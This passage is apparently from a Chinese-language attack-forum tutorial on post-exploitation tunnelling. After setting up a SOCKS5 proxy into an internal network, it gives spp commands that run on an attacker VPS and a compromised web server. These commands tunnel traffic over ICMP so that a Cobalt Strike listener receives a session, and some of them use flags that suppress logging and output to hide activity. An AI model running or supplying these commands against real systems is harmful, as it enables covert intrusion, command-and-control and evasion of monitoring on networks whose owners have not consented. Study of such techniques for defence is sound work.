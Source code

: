 V/PS回显

![085](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5593a5c6a9fb6a86c13d775512374f080245f18e.jpg)

![086](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3f6343ede54f4703ae868b0e13876834a435e56.jpg)

成功搭建隧道！

### 4 设置代理

socks5:v/ps:8080

192.168.3.76:8080

![087](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a1fc74e2063dc224c54512f0f48594c5b2f81542.jpg)

远程连接内网服务器

![088](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b50233786fc7863f5aa17df8256ebd22e2619e13.jpg)

![089](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-56e6d2d35998cc2cf7de053e4cc422ca091fb645.jpg)

结束！

五、spp上线CS
---------

### 1 V/PS执行

```php
./spp -type server -proto ricmp -listen 0.0.0.0
```

![090](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d7c239dceb982e458c0bbb7b28e3de9606dfeacf.jpg)

### 2 WEB服务器执行

```php
spp -name &amp;quot;test&amp;quot; -type proxy_client -server v/ps -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp

spp -name &amp;quot;test&amp;quot; -type proxy_client -server 192.168.3.76 -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp

# -nolog 1不输出日志，-noprint 1不打印内容
spp.exe -name &amp;quot;test&amp;quot; -type proxy_client -server 192.168.3.76 -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp -nolog 1 -noprint 1
```

![091](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d8e8e99b38039fe40e8a17a64543b5775e975690.jpg)

### 3 CS监听上线

建立监听127.0.0.1:8082和192.168.3.76:8081
